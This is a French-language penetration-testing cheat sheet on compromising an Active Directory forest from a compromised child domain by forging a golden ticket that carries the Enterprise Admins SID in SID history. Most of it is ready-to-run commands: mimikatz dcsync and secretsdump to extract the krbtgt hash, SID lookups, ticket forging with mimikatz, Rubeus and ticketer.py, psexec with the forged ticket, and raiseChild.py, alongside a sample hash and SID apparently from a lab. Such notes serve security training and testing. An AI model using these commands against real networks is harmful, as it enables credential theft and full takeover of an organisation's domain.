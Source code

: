 ```yaml
---
public: true # set to true to make the article publishable
---
```

Il s'agit d'une attaque offrant la possibilité de compromettre une forêt AD à partir d'un domaine compromis.
Il s'appuie sur la création d'un golden ticket qui contiendra un SID history égal au SID du groupe de sécurité administrateur de l'entreprise.

## Prérequis

- Disposer du Hash NTLM (LM:NT) du compte krbtgt du domaine enfant (récupérable via  `lsadump::dcsync /user:krbtgt@LOGISTICS.INLANEFREIGHT.LOCAL`)


## Attaque

### Sous Windows
#### Récupération des éléments  nécessaires

```shell
# récupération du SID du groupe "administtrateurs de l'entreprise"
 Get-DomainGroup -Domain <PARENT DOMAIN> | ? {$_.SamAccountName -like "Enterprise Admins"}| Select -ExpandProperty objectsid

# récupération du hash du krbtgt du domaine compromis
mimikatz
 lsadump::dcsync /user:krbtgt@<domain>

# récupération du sid du groupe entreprise admin
get-domaingroup -Domain inlanefreight.local|?{$_.samaccountname -like "ent*admin*"}|select name,objectsid

# récupération du sid du domaine 
get-domainsid
```

#### Mimikatz

```shell
# création du golden ticket
mimikatz
 kerberos::golden /user:<fake or real user> /domain:<compromised domain> /sid:<compromised domain s SID> /sids:<Group SID to privesc> /rc4:<compromised domain s KRBTGT hash> /ptt
```

#### Rubeus

```shell
.\Rubeus.exe golden /rc4:<compromised domain s KRBTGT hash> /domain:<compromised domain> /sid:<compromised domain s SID>  /sids:<Group SID to privesc> /user:<fake or real user> /ptt
```

### Sous Linux

#### Récupération des éléments  nécessaires

```shell
# récupération du SID du groupe "administtrateurs de l'entreprise"
 lookupsid.py

# récupération du hash du krbtgt du domaine compromis
secretsdump.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip> -just-dc -just-dc-user <domain netbios>/krbtgt

9d765b482771505cbe97411065964d5f
# récupération du sid du groupe entreprise admin
lookupsid.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip wher Enterprise admin is defined> | grep -Ei 'ent.*adm.*'


S-1-5-21-3842939050-3880317879-2865463114-519
# récupération du sid du domaine 
lookupsid.py <compromised domain FQDN>/<domain admin user>:<password@<dc ip wher Enterprise admin is defined> | head
```

#### ticketer.py

```shell
# création du golden ticket
ticketer.py -nthash <compromised domain s KRBTGT hash> -domain <compromised domain>  -domain-sid <compromised domain s SID> -extra-sid <Group SID to privesc> <fake or real user>

# utilisation
export KRB5CCNAME=$PWD/<fake or real user>.ccache

psexec.py -k -no-pass <fake or real user>@<target FQDN> -dc-ip <dc ip> -target-ip <target-ip>
```

### raiseChild.py

```shell
raiseChild.py <compromised domain FQDN>/<domain admin user>:<password> -target-exec <target ip>
```




